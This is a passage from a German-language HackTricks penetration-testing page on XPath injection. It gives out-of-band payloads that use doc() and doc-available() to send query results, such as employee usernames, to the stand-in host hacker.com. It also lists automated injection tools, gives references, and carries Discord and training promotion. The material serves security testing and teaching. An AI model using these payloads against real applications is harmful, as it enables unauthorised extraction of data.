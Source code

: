 ```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```
### Automatisches Werkzeug

* [xcat](https://xcat.readthedocs.io/)
* [xxxpwn](https://github.com/feakk/xxxpwn)
* [xxxpwn\_smart](https://github.com/aayla-secura/xxxpwn_smart)
* [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [XmlChor](https://github.com/Harshal35/XMLCHOR)

## Referenzen

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
* [https://wiki.owasp.org/index.php/Testing\_for\_XPath\_Injection\_(OTG-INPVAL-010)](https://wiki.owasp.org/index.php/Testing_for_XPath_Injection_\(OTG-INPVAL-010\))
* [https://www.w3schools.com/xml/xpath\_syntax.asp](https://www.w3schools.com/xml/xpath_syntax.asp)

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Tritt dem [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) Server bei, um mit erfahrenen Hackern und Bug-Bounty-Jägern zu kommunizieren!

**Hacking Einblicke**\
Engagiere dich mit Inhalten, die in den Nervenkitzel und die Herausforderungen des Hackens eintauchen

**Echtzeit-Hack-Nachrichten**\
Bleibe auf dem Laufenden über die schnelllebige Hack-Welt durch Echtzeit-Nachrichten und Einblicke

**Neueste Ankündigungen**\
Bleibe informiert über die neuesten Bug-Bounties und wichtige Plattform-Updates

**Tritt uns bei** [**Discord**](https://discord.com/invite/N3FrSbmwdy) und beginne noch heute mit den besten Hackern zusammenzuarbeiten!

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstütze HackTricks</summary></details>
{% endhint %}
